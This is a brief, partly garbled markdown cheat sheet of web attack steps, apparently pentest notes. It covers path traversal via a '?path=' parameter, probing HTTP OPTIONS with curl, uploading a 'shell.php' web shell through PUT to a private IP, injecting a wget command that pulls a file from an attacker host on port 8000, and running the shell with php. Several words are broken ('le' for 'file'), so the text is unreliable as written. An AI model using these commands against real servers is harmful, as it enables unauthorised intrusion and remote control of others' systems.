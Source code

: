 ## file traverse
website.com/ le.php[?path=/]

## Test HTTP options w/ curl
curl -vX OPTIONS [website]

## Upload le using CURL to website with PUT option available
curl --upload- le shell.php --url http://192.168.218.139/test/shell.php --http1.0

## Transfer le (Try temp directory if not writable)(wget -O tells it where to store):
?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;

## Activate shell file
; php -f lelocation.php;
